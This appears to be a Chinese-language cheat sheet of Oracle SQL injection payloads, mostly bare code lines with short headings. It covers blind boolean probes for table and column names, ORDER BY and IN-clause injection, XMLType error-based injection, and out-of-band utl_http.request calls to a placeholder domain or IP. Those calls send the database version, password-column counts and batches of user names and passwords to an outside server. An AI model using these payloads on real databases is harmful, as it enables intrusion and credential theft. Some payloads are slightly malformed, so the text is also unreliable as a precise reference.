 (select ascii(substr(table_name,1,1)) from user_table where rownum=1)>100#

(select length(column_name) from user_tab_columns where table_name=xxx and rownum=1)#

(select ascii(substr(column_name,1,1)) from user_tab_columns where rownum=1 and table_name=xxx)>10#

### order by后注入

当字段个数超出就会报错，或者利用算术表达式 1除以0报错

利用decode和ordsys.ord_dicon.getmappingxpath()

decode(1,1,ordsys.ord_dicom.getmappingxpath(select user from dual),1)#  false

decode(1,2,ordsys.ord_dicom.getmappingxpath(select user from dual),1)#  true



带外注入

utl_http.request("http://domain/")

通过utl_http.request我们可以将查询的结果发送到远程服务器上，在遇到盲注时非常有用，要使用该方法用户需要有utl_http访问网络的权限。

反弹注入

http://www.domain.com/news.jsp?id=1 and utl_http.request(‘http://192.168.0.1:port/’||(select banner from sys.v_$version where rownum=1))=1#

### In查询后注入

*表示为注入点

select * from user where DEPARTMENT in('HR*','ADMIN');

用||（mysql中的concat）拼接

报错注入

'||upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62)))||'

带外请求

'||utl_http.requests(select user from dual)||'.domain')||'

注版本

utl_http.request('http://domain/'||(select banner from sys.v_$version where rownum=1))

判断包含密码字段的数据表个数

utl_http.request('http://domain/'||(select to_char(count(*)) from user_tab_columns where column_name like '%25PASSWORD%25'))

注数据库中字段

utl_http.request('http://domain/'||(select column_name from user_tab_columns where table_name='USERS') where rownum=1)

批量出数据

utl_http.request('http://domain'||(select data from (select rownum as limit,(rownum||'%'||USER_NAME||'%'||PASSWORD)as data from USERS) where rownum=1))
